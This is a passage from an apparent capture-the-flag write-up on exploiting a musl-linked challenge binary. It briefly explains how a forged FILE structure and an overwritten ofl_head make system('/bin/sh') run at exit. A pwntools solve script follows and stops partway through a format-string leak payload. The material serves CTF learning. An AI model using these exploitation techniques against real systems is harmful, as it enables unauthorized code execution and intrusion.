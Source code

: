 So, knowing this, we can insert our fake `FILE` right after our normal input to `scanf`. Then, we overwrite `ofl_head` to point to the `stdin` buffer. With this setup, `system("/bin/sh")` will be called when `__stdio_exit` is executed.

## Solve Script
```python{linenos=true}
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

context.terminal = 'wt.exe wsl -d Ubuntu'.split()

exe = context.binary = ELF(args.EXE or './chall_patched')

host = args.HOST or 'localhost'
port = int(args.PORT or 8002)

if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('ld-musl-x86_64.so.1')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('ld-musl-x86_64.so.1')
else:
    libc = ELF('ld-musl-x86_64.so.1')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
b *(main+118)
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()

# Leak musl address
payload = flat(
    b'%p%p%p%p%p%p%p%p|%s'.ljust(24, b'.'),
    exe.got['putchar'],
```